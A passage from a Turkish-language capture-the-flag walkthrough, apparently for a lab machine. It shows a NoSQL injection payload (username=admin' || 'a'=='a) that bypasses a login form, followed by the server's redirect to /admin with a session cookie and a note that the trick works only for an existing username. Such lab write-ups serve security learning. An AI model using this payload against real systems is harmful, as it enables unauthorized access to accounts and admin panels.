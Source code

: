 ```
username=admin' || 'a'=='a&password=admin
```


![Pasted image 20250111154916.png](/img/user/Pasted%20image%2020250111154916.png)

Sonuçlar geldi:

```
HTTP/1.1 302 Found

Server: nginx/1.23.1

Date: Sat, 11 Jan 2025 12:49:06 GMT

Content-Type: text/html; charset=utf-8

Content-Length: 56

Connection: keep-alive

Location: /admin

Vary: Accept

Set-Cookie: connect.sid=s%3AycDpGIQ2e2Ts02LuxbrOzIjTGmP_Z_ul.c6lA8gz9SNFY7R%2B77iHM6IhrNP1NbS3zRgCVRikoZCk; Path=/; HttpOnly



<p>Found. Redirecting to <a href="/admin">/admin</a></p>
```


Bu, bir cookie set edilmesi ve /admin sayfasına yönlendirme! Başarı bu.

İlginç bir şekilde, bu sadece kullanıcı adı varsa çalışıyor. Eğer payload'ı şu şekilde değiştirirsem:

```
username=0xdf' || 'a'=='a&password=admin
```

“Wrong Credentials” ile yeniden yönlendiriyor.

Beyond Root'ta bu ve başka bir NoSQL güvenlik açığını inceleyeceğim.

### Access to Mattermost

#### Enumeration


Repeater'dan cookie alarak ya da NoSQL payload ile Firefox'tan giriş yaparak admin paneline girebiliyorum:

![Pasted image 20250111155246.png](/img/user/Pasted%20image%2020250111155246.png)
